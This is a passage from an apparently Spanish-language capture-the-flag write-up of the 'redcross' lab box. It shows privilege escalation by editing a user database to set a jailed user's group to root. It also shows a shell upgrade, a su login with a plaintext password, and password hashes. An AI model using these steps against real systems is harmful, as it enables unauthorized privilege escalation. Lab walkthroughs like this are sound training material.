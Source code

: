 ```
    TABLE "shadow_table" CONSTRAINT "st_username_fkey" FOREIGN KEY (username) REFERENCES passwd_table(username) ON DELETE CASCADE
    TABLE "usergroups" CONSTRAINT "ug_uid_fkey" FOREIGN KEY (uid) REFERENCES passwd_table(uid) ON DELETE CASCADE

select * from passwd_table;
 username |               passwd               | uid  | gid  | gecos |    homedir     |   shell
----------+------------------------------------+------+------+-------+----------------+-----------
 tricia   | $1$WFsH/kvS$5gAjMYSvbpZFNu//uMPmp. | 2018 | 1001 |       | /var/jail/home | /bin/bash
 miau     | $1$aINCdBU3$DI6tECMqjpMZ.D5c/DkpM/ | 2020 | 1001 |       | /var/jail/home | /bin/bash
(2 rows)

```

# privesc

Aparece nuestro usuario `miau`, que como recordamos pertenece a un ambiente enjaulado. Dicho ambiente enjaulado nos entregaba una shell limitada, un home donde no teníamos permisos de acercarnos al root (*/*), pero ahora que tenemos acceso a donde se encuentra estas propiedades, confiemos en que el script que se encarga de modificar la 'jaula' responda ante los cambios en la base de datos.

En el ambiente enjaulado agrega a todos los usuarios nuevos al grupo limitado con *GID* 1001, el cual nos impidió realizar algunas tareas, pero ahora que tenemos acceso a la DB, podemos cambiar esa propiedad. Cambiemos esta propiedad a 0:

```
update passwd_table set gid=0 where username='miau';
select * from passwd_table;
 username |               passwd               | uid  | gid  | gecos |    homedir     |   shell
----------+------------------------------------+------+------+-------+----------------+-----------
 tricia   | $1$WFsH/kvS$5gAjMYSvbpZFNu//uMPmp. | 2018 | 1001 |       | /var/jail/home | /bin/bash
 miau     | $1$aINCdBU3$DI6tECMqjpMZ.D5c/DkpM/ | 2020 |    0 |       | /var/jail/home | /bin/bash
(2 rows)
```

Ahora hagamos un upgrade de nuestra shell y accedamos como miau:

```
www-data@redcross:/var/www/html/admin/pages$ python -c 'import pty; pty.spawn("/bin/bash")'
<s$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@redcross:/var/www/html/admin/pages$ su - miau
su - miau
Password: CCutRKf7

miau@redcross:~$
```

Pero ser del grupo root no nos hace root.

```
miau@redcross:~$ cat /root/root.txt /home/penelope/user.txt
cat /root/root.txt /home/penelope/user.txt
cat: /root/root.txt: Permission denied
cat: /home/penelope/user.txt: Permission denied
miau@redcross:~$ ls -lah /root
ls -lah /root
total 64K
drwxr-x---  6 root root 4.0K Oct 31 12:33 .
drwxr-xr-x 22 root root 4.0K Jun  3  2018 ..
-rw-------  1 root root    0 Oct 31 12:33 .bash_history
-rw-r--r--  1 root root 3.4K Jun 10  2018 .bashrc
drwxr-xr-x  3 root root 4.0K Jun  6  2018 bin
drwxrwxr-x 11 root root 4.0K Jun  7  2018 Haraka-2.8.8
drwxr-xr-x  4 root root 4.0K Jun  7  2018 .npm
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   24 Jun 10  2018 .psqlrc
```